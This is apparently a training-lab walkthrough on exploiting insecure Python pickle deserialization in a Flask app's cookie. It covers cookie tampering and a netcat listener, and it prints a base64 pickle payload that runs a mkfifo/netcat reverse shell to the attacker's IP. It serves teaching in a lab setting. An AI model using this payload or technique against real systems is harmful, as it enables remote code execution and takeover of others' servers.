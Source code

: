 1. First, change the value of the userType cookie from "admin" to "user" and return to http://MACHINE_IP/myprofile 

2. Then, left-click on the URL in "Exhange your vim" found in the screenshot below.

3. Once you have done this, left-click on the URL in "Provide your feedback!" where you will be direct to page like so:

## What makes this form vulnerable?

>>If a user was to enter their feedback, the data will get encoded and sent to the Flask application (presumably for storage within a database for example). However, the application assumes that any data encoded is trustworthy. But we're hackers. You can only trust us as far as you can fling us (and that's nigh-on impossible online)

>>Although explaining programming is a bit out of scope for this room, it's important to understand what's going on in the snippet below:

>>When you visit the "Exchange your vim" URL, A cookie is encoded and stored within your browser - perfect for us to modify! Once you visit the feedback form, the value of this cookie is decoded and then deserialised. Uh oh. In the snippet below, we can see how the cookie is retrieved and then deserialized via pickle.loads

>>This vulnerability exploits Python Pickle, which I have attached as reading material at the end of the room. We essentially have free reign to execute whatever we like such as a reverse shell.

## The Exploit

>>Now I'm not going to leave you hanging dry here. First, we need to set up a netcat listener on our Kali. If you are a subscriber, you can control your own in-browser TryHackMe Kali Machine.

>>Because the code being deserialized is from a base64 format, we cannot just simply spawn a reverse shell. We must encode our own commands in base64 so that the malicious code will be executed. I will be detailing the steps below with provided material to do so.

>>Once this is complete, copy-and-paste the source code from this python file (pickelme.py) to your kali and modify the source code to replace your "YOUR_TRYHACKME_VPN_IP" with your TryHackMe VPN IP. This can be obtained via the Access page.

1. Create a python file to paste into, I have used "rce.py" for these examples:

2. Paste the code from the GitHub site, replacing YOUR_TRYHACKME_VPN_IP with your TryHackMe VPN IP from the access page

3. Execute "rce.py" via python3 rce.py

4. Note the output of the command, it will look something similar to this:

5. Copy and paste everything in-between the two speech marks ('DATA'). In my case, I will copy and paste:
```
gASVcgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFdybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuMTEuMy4yIDQ0NDQgPiAvdG1wL2aUhZRSlC4=    Yours may look slightly different, just ensure that you copy everything in-between the two speech marks ''
```
6. Paste this into the "encodedPayload" cookie in your browser:
